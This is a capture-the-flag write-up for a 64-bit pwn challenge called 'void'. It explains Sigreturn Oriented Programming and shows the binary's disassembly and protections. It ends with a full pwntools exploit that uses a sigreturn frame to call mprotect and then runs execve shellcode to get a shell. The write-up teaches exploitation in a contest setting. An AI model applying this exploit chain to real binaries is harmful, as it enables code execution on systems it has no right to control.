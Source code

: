 # void 

Points: 272

This was one of the good challenges that I tried during the CTF. It was based on a technique called SROP (Sigreturn Oriented Programming). 

The purpose of this challenge was to defeat ASLR and so the binary as such consisted of only two functions - `main` and `_start` both written in simple assembly making use of syscalls. 

I'll take you through challenge and how I solved it! 

## Preliminary checks:
```
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=7fd635b160836aff1b92af6f203e3b1f160f54cc, not stripped
```
```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
gef➤  
```
As we can see, it is a 64-bit statically linked binary and only NX is enabled! So we'll need to figure out a way to inject shellcode and execute, if at all we use that approach. We will see how that can be done soon enough!
For now let's analyze the binary further! 

## Analysis:


```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  main
0x0000000000401020  _start
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401000 <+0>:	mov    rax,0x0
   0x0000000000401007 <+7>:	mov    rdi,0x0
   0x000000000040100e <+14>:	mov    rsi,rsp
   0x0000000000401011 <+17>:	mov    rdx,0x7d0
   0x0000000000401018 <+24>:	syscall 
   0x000000000040101a <+26>:	ret    
End of assembler dump.
gef➤  disas _start
Dump of assembler code for function _start:
   0x0000000000401020 <+0>:	xor    eax,eax
   0x0000000000401022 <+2>:	call   0x401000 <main>
   0x0000000000401027 <+7>:	mov    rax,0x3c
   0x000000000040102e <+14>:	mov    rdi,0x0
   0x0000000000401035 <+21>:	syscall 
   0x0000000000401037 <+23>:	ret    
End of assembler dump.
gef➤  
```
Above is the assmbly dump for the two functions `main` and `_start`. As we can see there are no other functions, and the binary is statically linked, with no procedure linkage table or got address available during run time. Due to this, it becomes a challenge to obtain a leak! 
Hoewever if we dive into the program, we can see that, the `main()` function reads input from user. However, there is no stack frame defined and rsi points to the top of the stack. So eventually whatever input we give, it will remain at the top of the stack and will get executed as the next instruction.

So how do we go about it? Before discussing that, let us understand what does SROP mean and how it works.

## SROP
SROP stands for Sigreturn Oriented Programming and unlike Return Oriented Programming (ROP), it requires only two gadgets: `syscall` and a way to set `rax` register to `0xf`. In this challenge, it was quite difficult to write 0xf to rax as there weren't suitable gadgets available. But we can make use of the read syscall in main() to read 0xf bytes of input. With this, rax will store the number of characters read, i.e 0xf. Then we call syscall on it. This process comprises of the sigreturn syscall. 

The sigreturn is used to return from the signal handler and to clean up the stack frame after a signal has been unblocked. And "cleaning up the stack frame" really means it's restoring important context data that has been saved on the stack temporarily. This data includes values of all registers and some things that are unrelevant for exploitation, which is also the reason why at least 300 bytes are required for it to work. Since we can read upto 2000 bytes of data, it won't be a problem.

For exploitation sake, we make use of `SigreturnFrame()` available in pwntools. We can in fact control all registers with this gadget. Before moving onto the exploit, I'd like to remind you that NX is enabled, and since there is no libc we canot ret2libc either. So to break this barrier, we can use the mprotect syscall, to give `rwx` permissions to a certain bss section, wherein we can read our shellcode to, and execute it. As there is no stack frame defined, we add a stack frame with `asm(add rsp, 100)`, place our shellcode into it, and execute it. (The shellcode used is an execve 64-bit) 

## Exploit:
```
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"

#p = remote("tamuctf.com", 443, ssl=True, sni="void")
p = process('./void')
#gdb.attach(p, gdbscript='set disassembly-flavor intel\nb*main\nc\n')

main = 0x0000000000401000
ret = 0x40101a
syscall = 0x0000000000401018
start = 0x400020

frame = SigreturnFrame()
frame.rax = 10
frame.rdi = 0x00000000400000
frame.rsi = 0x1000
frame.rdx = 0x7
frame.rsp = 0x00000000400018# ptr to start
frame.rip = syscall# mprotect syscall

chain = p64(main)

print(str(frame))
pay = p64(main) + p64(syscall) + bytes(frame)
p.send(pay)
sleep(0.1)

p.send(p64(syscall).ljust(15, b'\x00'))
sleep(0.1)
p.send(p64(start) + asm('add rsp, 100') + asm(shellcraft.sh()))
sleep(0.1)

p.interactive()
```



